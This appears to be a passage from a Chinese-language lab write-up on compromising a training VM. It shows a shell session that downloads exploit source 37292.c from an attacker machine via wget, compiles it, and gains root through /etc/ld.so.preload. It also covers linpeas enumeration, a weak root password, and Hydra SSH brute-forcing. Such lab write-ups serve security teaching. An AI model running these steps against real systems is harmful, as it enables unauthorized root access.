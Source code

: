攻击机上 http 上传一份代码，靶机上接收编译运行：

```yacas
www-data@indishell:/$ cd /tmp
cd /tmp
www-data@indishell:/tmp$ wget 10.0.2.3:1145/37292.c
wget 10.0.2.3:1145/37292.c
--2025-10-21 21:40:10--  http://10.0.2.3:1145/37292.c
Connecting to 10.0.2.3:1145... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4968 (4.9K) [text/x-csrc]
Saving to: `37292.c'

     0K ....                                                  100%  288M=0s

2025-10-21 21:40:10 (288 MB/s) - `37292.c' saved [4968/4968]

www-data@indishell:/tmp$ gcc 37292.c -o exploit
gcc 37292.c -o exploit

www-data@indishell:/tmp$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# whoami
root
```

获得了 root 权限

> 后记：在 Getshell 后可以用老师上课时推荐使用的 linpeas 进行信息搜集，可以直接找到 root 账密

### 尝试方向 2: SSH

有一个 SSH 页面，在方向 1 获取 root 密码为 `roottoor` 时，意识到这是一个弱密码，因此可以尝试直接用 Hydra 进行爆破：

（可以在尝试方向 1 的时候，单独开一个窗口跑 Hydra）

实测发现平均每分钟可以处理 200 组密码（账号 root），如果用 `rockyou.txt` 可能要爆破一晚上，并且之后发现 `roottoor` 这个密码甚至不在 `rockyou.txt` 的庞大数据集中

所以爆破成功的可能性很低

---

## 渗透结果

成功获取了 root 权限并且修改了 root 密码，登录靶机界面，输入新密码进入 root 账号：
